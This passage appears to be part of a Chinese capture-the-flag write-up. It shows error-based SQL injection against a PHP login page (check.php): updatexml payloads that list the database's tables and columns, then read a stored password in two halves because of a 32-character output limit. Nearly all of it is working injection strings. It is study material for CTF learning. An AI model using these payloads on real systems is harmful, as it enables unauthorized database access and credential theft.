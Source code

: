 ```
check.php?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),0x7e),1))%23&password=2 
```

![在这里插入图片描述](img/3d80818c674c31609708fe147331d505.png)

```
check.php?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e),1))%23&password=2 
```

![在这里插入图片描述](img/d379405d024b34e7cbef9945284562eb.png)

*   因为updataxml限制语句为32位，而flag长度大于32位，所以用left和right函数拼接

```
前半部分 check.php?username=1'or(updatexml(1,concat(0x7e,(select((left(password,30)))from(H4rDsq1)),0x7e),1))%23&password=2

后半部分 ![check.php?username=1'or(updatexml(1,concat(0x7e,(select((right(password,30)))from(H4rDsq1)),0x7e),1))%23&password=2](https://img-blog.csdnimg.cn/20210405154340430.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM0NTA1,size_16,color_FFFFFF,t_70) 
```

![在这里插入图片描述](img/2af33795ed4cfedaf9198b10cc9ae26a.png)